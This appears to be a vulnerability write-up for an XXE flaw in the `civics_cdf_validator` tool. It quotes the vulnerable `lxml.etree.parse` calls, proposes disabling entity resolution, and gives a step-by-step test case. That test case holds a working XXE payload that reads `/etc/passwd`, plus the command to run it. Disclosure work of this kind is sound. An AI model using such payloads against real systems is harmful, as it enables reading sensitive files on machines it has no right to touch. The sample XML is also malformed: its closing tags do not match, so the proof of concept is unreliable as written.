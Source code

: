 - Vulnerability Name: XML External Entity (XXE) Injection
- Description:
    - An attacker can craft a malicious XML file.
    - This malicious XML file contains an external entity definition that points to a local file on the system running the `civics_cdf_validator`.
    - When the `civics_cdf_validator` parses this malicious XML file using `lxml.etree.parse` (in `base.py` within `RulesRegistry.check_rules`), it attempts to resolve and process the external entity.
    - If external entity processing is not disabled, `lxml` will attempt to read the local file specified in the external entity definition.
    - The content of the targeted local file can be potentially disclosed back to the attacker or cause other unintended consequences depending on how the validator processes the parsed XML.
- Impact:
    - **Local File Disclosure:** An attacker can potentially read arbitrary files from the server's filesystem that the user running the `civics_cdf_validator` has access to. This could include sensitive configuration files, application code, or data files.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None. The code uses `lxml.etree.parse` without any explicit configuration to disable external entity resolution.
- Missing Mitigations:
    - **Disable External Entity Resolution:** The `lxml.etree.parse` function should be configured to disable external entity resolution. This can be achieved by using `etree.XMLParser` with `resolve_entities=False` and passing it to the `etree.parse` function.
- Preconditions:
    - The attacker needs to be able to provide a malicious XML file to the `civics_cdf_validator` for validation. This is possible as the tool is designed to validate user-provided XML files against XSD schemas via the command line.
- Source Code Analysis:
    - **File:** `/code/base.py`
    - **Class:** `RulesRegistry`
    - **Method:** `check_rules`
    ```python
    def check_rules(self):
        """Checks all rules."""
        try:
          self.schema_tree = etree.parse(self.schema_file) # Vulnerable code: etree.parse without disabling resolve_entities
          self.election_tree = etree.parse(self.election_file) # Vulnerable code: etree.parse without disabling resolve_entities
        except etree.LxmlError as e:
          exp = loggers.ElectionFatal.from_message(
              "Fatal Error. XML file could not be parsed. {}".format(e))
          self.exceptions_wrapper.exception_handler(exp)
          return
        # ... rest of the code
    ```
    - **Explanation:**
        - The `check_rules` method in `RulesRegistry` is responsible for parsing both the XSD schema file (`self.schema_file`) and the election XML file (`self.election_file`) using `lxml.etree.parse`.
        - The `lxml.etree.parse` function, by default, has external entity resolution enabled.
        - There is no `etree.XMLParser` object created and configured with `resolve_entities=False` and passed to `etree.parse`.
        - Therefore, if a malicious XML file with an external entity is provided, `lxml` will attempt to resolve it, leading to a potential XXE vulnerability.

- Security Test Case:
    - **Step 1:** Create a malicious XML file (e.g., `malicious.xml`) with the following content. This XML payload attempts to read the `/etc/passwd` file on a Linux-based system:
      ```xml
      <?xml version="1.0"?>
      <!DOCTYPE root [
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
      ]>
      <ElectionReport>
        <Election>
          <ReportDetails>
            <Text>&xxe;</Text>
          </ReportDetails>
        </ElectionReport>
      </ElectionReport>
      ```
    - **Step 2:** Save a valid XSD schema file as `civics_cdf_spec.xsd` in the same directory as the malicious XML file. A basic valid XSD can be used for this test as the vulnerability lies in the XML parsing stage, before schema validation. For example:
      ```xml
      <?xml version="1.0"?>
      <xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
        <xs:element name="ElectionReport">
          <xs:complexType>
            <xs:sequence>
              <xs:element name="Election">
                <xs:complexType>
                  <xs:sequence>
                    <xs:element name="ReportDetails">
                      <xs:complexType>
                        <xs:sequence>
                          <xs:element name="Text" type="xs:string"/>
                        </xs:sequence>
                      </xs:complexType>
                    </xs:element>
                  </xs:sequence>
                </xs:complexType>
              </xs:element>
            </xs:sequence>
          </xs:complexType>
        </xs:element>
      </xs:schema>
      ```
    - **Step 3:** Run the `civics_cdf_validator` tool, providing the malicious XML file and the valid XSD schema as arguments:
      ```bash
      civics_cdf_validator validate malicious.xml --xsd civics_cdf_spec.xsd -v
      ```
    - **Step 4:** Examine the output of the `civics_cdf_validator`. If the XXE vulnerability exists, the verbose output (`-v` flag) will likely contain the content of the `/etc/passwd` file embedded within the output, possibly as part of an error message or verbose log, demonstrating successful local file disclosure. If successful, the output will be different from a normal validation run and will contain user information from `/etc/passwd`. Note that the exact output might depend on the system and how `lxml` handles the inclusion of external entity content in error messages or logs. For a successful exploit, you should observe content from `/etc/passwd` in the output. On systems where `/etc/passwd` is not readable, you might need to target a different readable file for testing.
